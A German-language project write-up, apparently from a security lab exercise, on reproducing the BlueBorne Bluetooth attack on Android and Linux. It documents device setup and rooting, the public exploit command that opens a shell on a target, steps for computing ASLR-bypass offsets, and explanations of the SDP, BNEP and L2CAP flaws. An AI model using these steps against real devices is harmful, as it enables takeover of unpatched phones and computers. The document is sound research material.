



# Dokumentation Vorgehensweise & Erkentnisse

## Installation der Geräte
Um die BlueBorne Attacke durchführen zu können, braucht es entsprechende Geräte die eine System besitzen, welches angreifbar ist. Softwareversionen vor September 2017 sollten diese Bedingungen erfüllen.

### Installation Nexus 5X
In einem ersten Schritt haben wir versucht eine Cynagenmod 14.1 System (Android 7.1.1) zu installieren. Auf diesem war den Angriff aber nicht durchführbar. Aus diesem Grund installierten wir eine Stock Android Version von Google in der Version 7.1.2. (Link: https://developers.google.com/android/images)

**Vorgehensweise Android 7.1.2**:  
* Downlaod Image (https://developers.google.com/android/images)
* Download Fastboot Tool (https://www.chip.de/downloads/Minimal-ADB-and-Fastboot_62500183.html)
* Handy in Bootloader Modus starten
* Bootloader des Handys entsperren
* Download SDK Platform Tools (https://developer.android.com/studio/releases/platform-tools)
* Mit den Platform Tools das Image auf das Handy flashen
* Bootloader sperren (Da das Handy ansonsten nach Neustart nicht bootet)

**Vorgehensweise Android 6.0.1 (Linux)**
* Downlaod Image (https://developers.google.com/android/images)
* Installation adb für Linux (Befehl: apt-get install adb)
* Download platform tools für Linux (https://developer.android.com/studio/releases/platform-tools.html)
* Die Files des Images müssen nun in den platform tools Ordner verschoben werden
* Unter Kali muss anschliessend das flash-all.sh Skript so angepasst werden dass überall vor *fastboot* ein *./* ergänzt wird.
* Nun dieses Skript mit *./flash-all.sh* ausführen
* Das Programm läuft zum Schluss in einen Fehler dass userdata nicht beschrieben werden kann. Um dies zu lösen müssen die Befehle von Hand ausgeführt werden: (https://android.stackexchange.com/questions/203173/flashing-nexus-5-factory-image-fails-on-writing-userdata)
* Für das spätere auslesen der Librarys werden root Rechte benötigt, dazu wie folgt vorgehen:
    * TWRP Recovery installieren dazu Handy mit *adb reboot bootloader* in Fastboot Modus versetzen. Nun Image mit *fastboot flash recovery twrp.img* flashen (Image Download: https://twrp.me/Devices/)
    * Nun aus dem Fastboot Modus den Recovery Modus starten um so in TWRP zu gelangen.
    * Sobald TWRP geöffnet wurde kann die Super Su.zip auf das Gerät kopiert werden (Download: http://www.supersu.com/download)
    * Anschliessend in TWRP auf über Install die .zip installierten
    * Nun das Gerät neustarten

### Installation von peda-arm und gdbserver auf dem Handy
Peda-arm wird dazu benötigt um den Memory des Handys nach dem Bluetooth Device Name zu durchsuchen (siehe Exploit auf Android Basis).  
Mit dem gdbserver kann gdb auf dem Handy ausgeführt werden und über eine shell mit dem PC verbundne werden

**Vorgehensweise Installation peda-arm**
* Git Repo von peda-arm auf den Computer clonen: https://github.com/alset0326/peda-arm.git
* In den Ordner navigeren und folgende Befehl ausführen: *echo "source ~/peda-arm/peda-arm.py" >> ~/.gdbinit*
* Anschliessen wird mit dem Befehl *gdb* gdb und peda-arm gestartet
* *Hinweis: bei bestimmten Prozessen kann es zu Problemen mit der Prozessor Architektur kommen. Um dies zu beheben wird eine spezielle peda-arm Version benötigt:*
    * Download peda-arm für arm64 Prozessoren (https://releases.linaro.org/components/toolchain/binaries/7.3-2018.05/aarch64-linux-gnu/ ==> die gcc-linaro-7.3.1-2018.05-x86_64_aarch64-linux-gnu.xz Datei)
    * Anschliessend in den bin Ordner navigierin und die Datei *./aarch64-linux-gnu-gdb* ausführen

**Vorgehensweise Installation gdbserver**
* Download gdbserver (https://developer.android.com/ndk/downloads/index.html)
* Die .zip entpacken und in den prebuilt/android-arm Ordner navigiern
* Mit *adb push gdbserver /system/bin* den gdbserver in den bin Ordner des Handys kopieren
* *Hinweis: Falls Berechtigungsprobleme auftreten wie folgt vorgehen:*
    * Files in den Download Ordner pushen *adb push gdbserver /sdcard/Download*
    * Files mit cp in den /system/bin Ordner kopieren (*cp gdbserver /system/bin/gdbserver*, *cp repo.prop /system/bin/repo.prop* )
    * Volle Berechtigung auf gdbserver vergeben (*chmod 777 gdbserver*)

### Installation Raspberry Pi 3B+
Da die 3B+ Version des Raspberry das alte Ubuntu Mate 16.04 nicht mehr unterstützt, muss dessen Installations Image modifiziert werden.
Dazu wurde folgende Anleitung verwendet: (https://ubuntu-mate.community/t/adapting-official-ubuntu-mate-16-04-2-lts-image-to-run-on-raspberry-pi-3-model-b-3b/17853)  
Anschliessend kann das Image auf die SD Karte geflasht werden und so die Installtion des alten Ubunte durchgeführt werden

## Exploit auf Android Basis
Im ersten Schritt wurde versucht mithilfe der Skripte von ArmisLab der Exploit original nachzubilden. Dabei stellen wir fest dass exakt diesselbe Android nötig war da ansonsten der Exploit nicht funktionierte (In diesem Fall Android 7.1.2). Die Schritte wie folgt:  
1. Installatio des Handys gemäss obiger Installationsanweisung  
2. Für die Durchführung des Exploits wird ein CSR Bluetooth Dongle benötigt.  
3. Download der offiziellen Sourcefiles für den Exploit auf git: https://github.com/ArmisSecurity/blueborne  
4. Für die Ausführung der Skripte wird eine enstprechende Python Installation benötigt. Zusätzlich müssen die Liabraries pwn, pybluez und libbluetooth-dev installiert werden.  
5. Anschliessend kann mit folgendem Befehl das Skript und somit der Exploit ausgeführt werden: sudo python2 doit.py hci0 <target-bdaddr> <attacker-ip>
6. Nun sollte man über eine Shell das Gerät ansteuern können (eventuell braucht es mehrere Versuche).

Nach erfolgreiche Durchführung des Exploits auf Android 7.1.2 wollten wir dies auf andere Android Versionen ausweiten. Da die Architekture bei anderen System natürlich leicht anders ist mussten wir auch die Offsets neu berechnen um den ASLR Schutzmechanismus zu umgehen.
Insgesamt müssen 4 Offsets berechnet werden. Um dies zu tun haben wir auf dem Nexus Android 6.0.1 installiert und das Handy gerootet. Folgende Schritte haben wir befolgt um an die Offsets zu gelangen:  
1. bluetooth.default.so Library und libc.so library über adb pull vom Handy kopiert
2. Innerhalb der libc.so Library nach der Memory Adresse für die System Funktion gesucht welche nun die erste Adresse ist welche man benötigt.
3. Auf dem Handy Innerhalb der Section Map des Bluetooth Prozesses nach der bluetooth.default.so gesucht und dessen Adressen ausgelesen
4. Mithilfe des Memory Leak Skripts (CVE-2017-0785) eine Adresse gesucht die Innerhalb der Range der bluetooth.default.so Adressen liegt
5. Mithilfe der Start Adresse aus bluetooth.default.so und der Adresse des Leaks den Offset durch Subtraktion berechnet.
6. Gleiches vorgehen für die libc. library
7. Die letze Adresse ist jene wo der Bluetooth device Name eine gepairten Devices gspeichert wird. Dieser ist etwas schwieriger auszulesen. Dazu muss mithilfe von gdbserver ein Debugger auf dem Handy gestartet werden und der com.android.bluetooth Prozess angehängt werden (*gdbserver :8888 --attach [PID]*)
8. Mithilfe von peda-arm kann nun der Memory nach dem Namen des Bluetooth Device gesucht werdn dass mit dem Testgerät gepairt wurde. Die Entsprechende Memory Adresse ist dann der letzte Offset

## Exploit auf Linux Basis

## Research BlueBorne Attacke
Im folgenden wird die Funktionsweise der BlueBorne Attacke weiter beschrieben.

### SDP Protokoll
Das SDP Protokoll auf dem Bluetooth Stack dient dazu Bluetooth Services, welche das jeweils andere Gerät unterstüzt, abzufragen. Dabei wird ebenfalls eine PSM Nummer (wie Port bei TCP) angefragt, über welchen anschliessend eine L2CAP Verbindung, auf den entsprechend erfragten Service, aufgebaut werden kann.

Der Client sendet dabei einen Request, welcher mit einer Response behandelt wird. Diese Response muss eventuell fragmentiert werden, je nach MTU (maximale Paketgrösse) des Clients.
Dieser Umstand wird nun für den Leak ausgenutzt. Im Falle des Andoris Leaks wird ein Request mit einer MTU von 50 an einen Service mit Response > 50 Bytes geschikt. Mit der Response kommt nun ein Continuation State der innerhalb eines zweiten identischen Requests angefügt werden müsste um den zweiten Teil der Response zu erhalten.
Allerdings baut man nun eine Verbindung zu einem zweiten Service auf mit einer Response die kleiner als die MTU 50 wäre. Denn Continuation State des vorherigen Requests fügt man an diesen Request an. Der Bluetooth Server rechnet nun mit einer erforderlichen Response Anzahl von 1. Die übrigen nötigen Response Fragmente werden aus Differenz von nötigen Responsen (hier 1) und Continuation State (hier 2) errechnet. Die Variable welche die noch nötigen Response Fragmente enthält ist ein uint16. Mit diesem erstellten Szenarion wird nun 1 - 2 gerechnet was einen **Underflow** erzeugt. Der Server denkt nun er müsse eine riesige Anzahl an Responsen aussenden die entsprechend weitere Speicherinhalte des Gerätes enthalten und vom Angreifer innerhalb einer for-Schleife abgehandelt werden können.

### BNEP Protokoll

Mithilfe des BNEP Protokoll können IP Pakete über Bluetooth übertragen werden. Dies wird z.B. genutzt um ein Mobilfunkhotspot mit einem anderen Gerät zu teilen. Die Pakete werden wie folg verpackt:

Zusätzlich bietet BNEP auch sogenannte Control Message, die diverse Flow Control Mechanismen ermöglichen. Dazu wird vor dem eigentlichen BNEP Header ein zusätzlicher Extension Header angehängt der mit einem Extension Bit angekündigt wird. In diesem wird die Kontroll Message nun genauer spezifiziert.
In der Abhandlung dieser Control Messages liegt ein Programmierfehler, der zu einem BufferOverflow führen kann:

*p_pending_data* wird zu Beginn des Codes als Buffer mit der Grösse von *rem_len* initalisiert. In diesem Codeabschnit wird nun *p* an die Stelle *p_pending_data + 1* kopiert. Dies führt zu einem BufferOverflow mit der Grösse von *p_pending_data*. Um nun diesen Codeabschnitt zu erreichen muss folgende Payload als BNEP Packet gesendet werden:

Mit 81 wird das entsprechende extension_bit gesetzt. 01 setzt als Control type das BNEP_FRAME_CONTROL was benötigt wird um in den switch case zu gelangen. 

### L2CAP Protokoll (Linux kernel RCE vulnerability - CVE-2017-1000251)
Um diese Sicherheitslücke zu misbrauchen benötigt man zwei bluetooth Geräte. Das Gerät welches "angegriffen" wird muss für diesen Exploit in den "PENDING" Modus versetzt werden. Dies erreicht man durch das folgende, vereinfacht beschriebene, Verfahren:

*Vorweg: Es muss bereits eine "Connection" hergestellt werden wodurch man die D(Destination)CID erhält. Die S(Source)CID kann man selbst hardcodiert setzen*

1. Angreifer sendet und empfängt
    1. Sendet: Configuration Request (DCID = 0x0040 / Destination Channel ID of L2CAP)
    2. Sendet: Configuration Request mit dem EFS Element mit stype = L2CAP_SERV_NOTRAFIC
    3. Empfängt: Configuration Request von "Opfer" mit DCID = 0x0040
    4. Sendet: Configuration *Response* mit "Result" Feld = L2CAP_CONF_PENDING und den wiederholten Parametern (im Beispiel die MTU) um den Stackoverflow zu generieren.
2. Angreifer kontrolliert den Stack und hat eine ROP-Chain (Return-oriented programming) vorbereitet und eingespielt
3. Angreifer hat vollzugriff im System

### ROP
Return-oriented programming oder kurz ROP beschreibt eine exploit Technik welche es einem Angreifer ermöglicht Code auszuführen ohne dabei das "execution" Privileg zu haben. Auch können somit Sicherheitsmassnahmen umgangen werden wie z.B.: "executable space protection" oder "code signing".

Im Bezug zu Blueborne wird dies kombiniert mit einem Stackoverflow ausgeführt.

### Stackoverflow
Durch das überfüllen eines im Stack reservierten Speichers für z.B. ein Array (buf[10]) von hier 10 byte kann das "return address" register überschrieben werden auf z.B. die Addresse von buf[10] in diesem Stackframe. Dadurch kann der Angreifer 10 Byte (bzw. 9 Byte und "\0" Terminator Charakter) in diesem Stackframe kontrollieren und mittels dem overflow diese 9 Byte code (meistens Shellcode) ausführen.
